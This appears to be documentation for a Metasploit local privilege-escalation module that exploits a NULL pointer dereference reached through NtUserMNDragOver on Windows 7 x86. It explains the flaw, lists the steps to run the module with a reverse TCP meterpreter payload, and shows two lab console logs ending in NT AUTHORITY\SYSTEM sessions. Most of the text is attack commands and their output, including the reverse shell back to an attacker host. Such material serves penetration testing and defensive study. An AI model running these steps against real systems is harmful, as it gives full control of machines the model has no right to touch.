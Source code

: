 ## Vulnerable Application

This module exploits a NULL pointer dereference vulnerability in
MNGetpItemFromIndex(), which is reachable via a NtUserMNDragOver() system
call.

The NULL pointer dereference occurs because the xxxMNFindWindowFromPoint()
function does not effectively check the validity of the tagPOPUPMENU
objects it processes before passing them on to MNGetpItemFromIndex(),
where the NULL pointer dereference will occur.

This module has been tested against Windows 7 x86 SP0 and SP1.
Offsets within the solution may need to be adjusted to work with
other versions of Windows, such as Windows Server 2008.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 x86
1. `use exploit/windows/local/ntusermndragover`
1. `set session <session>`
1. `set payload windows/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP0 x86

```
msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.15:49158 (192.168.56.15)

msf exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[+] Reflectively injecting the exploit DLL and running the exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 192.168.56.15
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.15:49159) at 2020-04-29 17:14:46 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Windows 7 SP1 x86

```

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.5:49157 (192.168.56.5)

msf exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 2696 launched.
[*] Injecting exploit into 2696 ...
[*] Exploit injected. Injecting payload into 2696...
[*] Payload injected. Executing exploit...
[*] Sending stage (176195 bytes) to 192.168.56.5
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.5:49158) at 2020-04-29 17:18:00 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
